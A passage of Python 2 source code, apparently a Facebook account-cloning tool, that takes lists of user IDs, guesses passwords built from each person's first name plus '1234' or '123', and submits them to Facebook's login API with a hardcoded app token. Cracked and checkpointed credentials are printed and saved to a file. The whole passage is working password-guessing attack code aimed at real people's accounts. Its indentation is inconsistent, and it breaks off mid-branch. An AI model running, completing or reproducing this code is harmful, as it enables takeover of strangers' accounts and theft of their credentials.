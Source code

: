 			id.append(i['id'])
	elif peak =="0":
		menu()
	else:
		print "\x1b[1;91mFill in correctly"
		pilih_super()
	
	print "\033[1;93mTotal Accounts\033[1;93m: \033[1;97m"+str(len(id))
	jalan('\033[1;93mWait\033[1;97m...')
	titik = ['.   ','..  ','... ']
	for o in titik:
		print("\r\033[1;93m•Cloning Has Been Started•\033[1;93m"+o),;sys.stdout.flush();time.sleep(0.05)
	print "\n\033[1;92mNOTE:\x1b[1;93m [If You Want to Stop Process Press CTRL+Z]"
	print "\033[1;95m«-_-_-_-_-_-_-_-_-\033[1;91mHuntter\033[1;95m-_-_-_-_-_-_-_-_-»"
 	
			
	def main(arg):
		global oks
		user = arg
		try:
			os.mkdir('out')
		except OSError:
			pass #Dev:love_hacker
		try:													
			a = requests.get('https://graph.facebook.com/'+user+'/?access_token='+toket)												
			b = json.loads(a.text)												
			pass1 = b['first_name'] + '1234'												
			data = urllib.urlopen("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email="+(user)+"&locale=en_US&password="+(pass1)+"&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6")												
			q = json.load(data)												
			if 'access_token' in q:
				x = requests.get("https://graph.facebook.com/"+user+"?access_token="+q['access_token'])
				z = json.loads(x.text)
				print '\x1b[1;91m[  *  ] \x1b[1;92m[OK]'											
				print '\x1b[1;91m[۩۞۩] \x1b[1;91mName \x1b[1;91m    : \x1b[1;91m' + b['name']											
				print '\x1b[1;91m[۩۞۩] \x1b[1;91mID \x1b[1;91m      : \x1b[1;91m' + user											
				print '\x1b[1;91m[۩۞۩] \x1b[1;91mPassword \x1b[1;91m: \x1b[1;91m' + pass1 + '\n'											
				oks.append(user+pass1)
                        else:
			        if 'www.facebook.com' in q["error_msg"]:
				    print '\x1b[1;93m[ * ] \x1b[1;96m[Checkpoint]'
				    print '\x1b[1;93m[۩۞۩] \x1b[1;93mName \x1b[1;93m    : \x1b[1;93m' + b ['name']
				    print '\x1b[1;93m[۩۞۩] \x1b[1;93mID \x1b[1;93m      : \x1b[1;93m' + user
				    print '\x1b[1;93m[۩۞۩] \x1b[1;93mPassword \x1b[1;93m: \x1b[1;93m' + pass1 + '\n'
				    cek = open("out/super_cp.txt", "a")
				    cek.write("ID:" +user+ " Pw:" +pass1+"\n")
				    cek.close()
				    cekpoint.append(user+pass1)
                                else:
				    pass2 = b['first_name'] + '123'										
                                    data = urllib.urlopen("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email="+(user)+"&locale=en_US&password="+(pass2)+"&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6")												
			            q = json.load(data)												
			            if 'access_token' in q:	
				            x = requests.get("https://graph.facebook.com/"+user+"?access_token="+q['access_token'])
				            z = json.loads(x.text)
				            print '\x1b[1;91m[  *  ] \x1b[1;92m[OK]'											
				            print '\x1b[1;91m[۩۞۩] \x1b[1;91mName \x1b[1;91m    : \x1b[1;91m' + b['name']											
				            print '\x1b[1;91m[۩۞۩] \x1b[1;91mID \x1b[1;91m      : \x1b[1;91m' + user								
				            print '\x1b[1;91m[۩۞۩] \x1b[1;91mPassword \x1b[1;91m: \x1b[1;91m' + pass2 + '\n'											
				            oks.append(user+pass2)
                                    else:
			                   if 'www.facebook.com' in q["error_msg"]: